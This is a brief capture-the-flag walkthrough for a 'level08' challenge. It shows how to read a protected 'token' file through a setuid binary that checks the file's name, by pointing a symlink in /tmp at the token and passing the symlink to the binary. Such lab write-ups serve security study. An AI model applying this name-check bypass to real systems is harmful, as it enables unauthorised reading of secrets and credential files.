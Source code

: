 # Level08
## Step by step
- In the user `level08` home directory, there is a file
  ```bash
  > ls
  -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
  -rw-------  1 flag08  flag08    26 Mar  5  2016 token
  ```
- The binary `level08` take as argument a file not named `token` and print the content of the file in stdout.
- We want to print the content a `token` but we need to change the name file before
  ```bash
  > ln -s $PWD/token /tmp/test
  > ls
  lrwxrwxrwx 1 level08 level08 24 Jan 19 17:19 /tmp/test -> /home/user/level08/token
  > ./level08 /tmp/test
  XXX
  ```
